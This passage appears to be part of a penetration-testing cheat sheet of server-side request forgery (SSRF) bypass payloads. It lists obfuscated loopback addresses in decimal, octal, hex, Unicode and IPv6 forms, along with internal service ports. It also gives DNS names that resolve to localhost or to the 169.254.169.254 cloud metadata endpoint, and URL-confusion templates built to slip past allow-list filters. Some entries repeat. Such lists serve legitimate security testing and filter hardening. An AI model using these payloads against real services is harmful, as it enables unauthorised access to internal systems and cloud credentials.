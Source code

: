 ```bash

# Add 0s bypass
127.000000000000.1

# You can also mix different encoding formats
# <https://www.silisoftware.com/tools/ipconverter.php>

# Malformed and rare
localhost:+11211aaa
localhost:00011211aaaa
<http://0/>
<http://127.1>
<http://127.0.1>

# DNS to localhost
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
<http://customer1.app.localhost.my.company.127.0.0.1.nip.io>
<http://bugbounty.dod.network> = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1
```

### various bypasses

```xml
127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@localhost
```